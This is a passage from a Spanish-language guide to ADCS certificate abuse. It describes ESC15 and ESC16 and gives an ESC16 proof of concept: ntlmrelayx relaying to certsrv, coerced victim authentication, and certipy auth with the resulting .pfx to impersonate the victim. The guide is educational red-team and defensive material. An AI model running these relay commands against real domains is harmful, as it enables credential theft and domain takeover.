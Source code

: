 
### ESC15: Control sobre ADCS Web Enrollment

**Descripción:**  
Tener control o acceso privilegiado sobre el servicio web de inscripción de certificados.

**Por qué funciona:**  
Permite manipular solicitudes y respuestas de certificados.

---

### ESC16: Vulnerabilidad en “NTLM Relay” a ADCS

**Descripción:**  
El más reciente (2024). Permite relaying de NTLM a los endpoints HTTP de ADCS (certsrv), permitiendo inscribir certificados como usuarios privilegiados si los endpoints no están protegidos.

**Por qué funciona:**  
El endpoint RPC/HTTP de ADCS acepta autenticación NTLM y no implementa protección MS-EFSR, facilitando ataques de relay.

**PoC:**
1. Iniciar un relay con ntlmrelayx:
   ```bash
   ntlmrelayx.py -t http://<CA-Server>/certsrv/certfnsh.asp --adcs
   ```
2. Forzar autenticación (SMB, WebDAV, etc.) de la víctima hacia la máquina del atacante.
3. ntlmrelayx solicitará un certificado en nombre de la víctima.
4. Usar el .pfx obtenido para autenticarse como la víctima:
   ```bash
   certipy auth -pfx <.pfx> -domain <dominio>
   ```

---

## Recursos y Referencias

- [SpecterOps - Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Harmj0y - ADCS Attacks](https://www.harmj0y.net/blog/redteaming/abusing-active-directory-certificate-services/)
- [Certipy GitHub](https://github.com/ly4k/Certipy)
- [NTLM Relay to ADCS](https://research.ifcr.dk/ntlm-relay-to-ad-certificate-services/)
- [ADCS ESC Overview (SpecterOps)](https://github.com/SpecterOps/CertifiedPreOwned/blob/main/ESC.md)

---

## Conclusión

ADCS es una de las superficies de ataque más poderosas y subestimadas en entornos Windows modernos. El abuso de certificados puede llevar a la total toma de control de un dominio. Certipy permite identificar y explotar estas debilidades de manera rápida y efectiva. Es fundamental que los equipos defensivos revisen sus configuraciones y apliquen las recomendaciones de hardening.

---

**¡Recuerda!**  
Utiliza este conocimiento únicamente en entornos de laboratorio o bajo permiso explícito. El abuso indebido de estos vectores puede llevar a consecuencias legales.
